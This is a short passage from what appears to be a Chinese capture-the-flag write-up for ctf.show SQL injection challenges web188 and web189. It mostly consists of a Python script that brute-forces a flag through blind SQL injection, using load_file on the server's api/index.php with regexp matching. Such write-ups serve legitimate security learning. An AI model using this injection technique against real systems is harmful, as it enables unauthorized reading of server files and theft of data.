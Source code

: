 ![](.\SQL注入\web188\web188.png)

通过检测后，waf直接给了flag



### web189

```
flag在api/index.php文件中
```

```
import requests
import sys
import json

url = 'http://c1f50290-9488-499d-b94a-01abe27e29c0.challenge.ctf.show/api/index.php'
flag = 'ctfshow{'
letter = '0123456789abcdefghijklmnopqrstuvwxyz-{}'

for i in range(100):
    for j in letter:
        payload = {
            "username": "if(load_file('/var/www/html/api/index.php')regexp('{}'),0,1)".format(flag + j),
            "password": "0"

        }
        r = requests.post(url=url,data=payload)
        #print(r)
        if "密码错误" == r.json()['msg']:
            flag += j
            print(flag)
            break
```
